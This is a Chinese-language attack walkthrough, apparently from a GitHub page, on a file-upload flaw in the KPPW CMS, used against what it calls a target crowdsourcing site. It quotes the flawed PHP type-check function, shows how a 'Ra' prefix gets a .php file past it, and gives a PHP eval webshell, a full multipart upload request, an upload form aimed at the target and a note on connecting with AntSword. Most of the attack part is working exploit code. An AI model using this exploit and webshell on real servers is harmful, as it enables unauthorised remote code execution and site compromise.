 # 未知攻焉知防-文件上传
文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。
## 目标站是一个威客平台:
进行信息收集发下该平台系统是kppw 建站系统</br>
曾经披露处相关的文件上传漏洞</br>
寻找相应版本的源码</br>
漏洞位于/lib/helper/keke_file_class.php 138~158行</br> 
```
static function get_file_type($file_path, $ext = '') {
		$fp = fopen ( $file_path, 'r' );
		$bin = fread ( $fp, 2 );
		fclose ( $fp );
		$strInfo = @unpack ( "C2chars", $bin );
		$typeCode = intval ( $strInfo ['chars1'] . $strInfo ['chars2'] );
		$fileType = 'unknown';
		$typeCode == '3780' && $fileType = "pdf";
		$typeCode == '6787' && $fileType = "swf";
		$typeCode == '7784' && $fileType = "midi";
		$typeCode == '7790' && $fileType = "exe";
		$ext == 'txt' && $fileType = "txt";
		in_array ( $typeCode, array ('8297', '8075' ) ) && $fileType = $ext; 
		if (in_array ( $typeCode, array ('255216', '7173', '6677', '13780' ) )) { 
			in_array ( $ext, array ('jpg', 'gif', 'bmp', 'png', 'jpeg' ) ) and $fileType = $ext or $fileType = 'jpg';
		}
		if ($typeCode == '208207') { 
			in_array ( $ext, array ('wps', 'ppt', 'dot', 'xls', 'doc', 'docx' ) ) and $fileType = $ext or $fileType = 'doc';
		}
		return $fileType;
	}
```
1.$bin = fread($fp,2) 取出两个字符</br>
2.unpack() 函数从二进制字符串对数据进行解包。</br>
3.typeCode值在数组(8297,8075)中则 fileType取得$ext 后缀名(当上传.php文件时 $ext=php)</br>
4.而 Ra 经过unpack()函数处理正好是 8297</br>
构造一句话上传木马</br>
```
Ra<?php @eval($_POST['A']);?>
```
上传到/index.php?do=ajax&view=upload&file_type=big&filename=filename</br>
可用burpsuite上传 (POST)</br>
```
Content-Type: multipart/form-data; boundary=---------------------------41184676334
Content-Length: 210
Cookie: PHPSESSID=d5b313od6avhlohidiva6afin3
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------41184676334
Content-Disposition: form-data; name="filename"; filename="1.php"
Content-Type: jpg

Ra<?php @eval($_POST['A']);?>
-----------------------------41184676334--"""
```
![3.jpg](https://i.loli.net/2019/06/10/5cfdfaa9795ff78469.jpg)</br>
这里有个双文件上传html</br>
```

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 TRANSITIONAL//EN">
<!-- saced from url=(0055)http://www.xxx.com/upfile_photo.asp -->
<HTML><HEAD>
<META http-equiv=Content-Type content="text/html; charest=gb2312">
<STYLE type=text/css>BOOY{
FONT-SIZE: 9pt; BACKGROUND-COLOR: #e1f4ee
}
.tx1{
BORDER-RIGHT:#000000 1px solid; BORDER-TOP: #000000 1px solid; FONT-SIZE: 9pt; BORDER
}
</STYLE>

<META content="MSHTML 6.00.2800.1400" name=GENERATOR></HEAD>
<BODY leftMargin=0 topMargin=0>
<FORM name=form1 action="http://www.xxx.com/index.php?do=ajax&view=upload&file_type=big&filename=filename" method=post
encTYpe=multipart/form-data><INPUT class=tx1 type=file size=30 name=FileName><INPUT
class=tx1 type=file size=30 name=FileName1> <INPUT style="BORDER-RIGHT:rgb(88,88,88)
double;BORDER-TOP: rgb(88,88,88) 1px double; FONT-WEIGHT: normal; FONT-SIZE:9pt;BOR
LEFT: rgb(88,88,88) 1px double; LINE-HEIGHT: normal; BORDER-BOTTOM: rgb(88,88,88)1PX
double; FONT-STYLE: normal; FONT-BARIANT: normal" type=submit value=上传 name=submit>
<INPUT id=photoUr1ID type=hidden value=0 name=photoUr1ID> </FORM></BODY></HTML>
```
### 蚁剑连接
![1.jpg](https://i.loli.net/2019/06/10/5cfdfaa9af4b835160.jpg)</br>
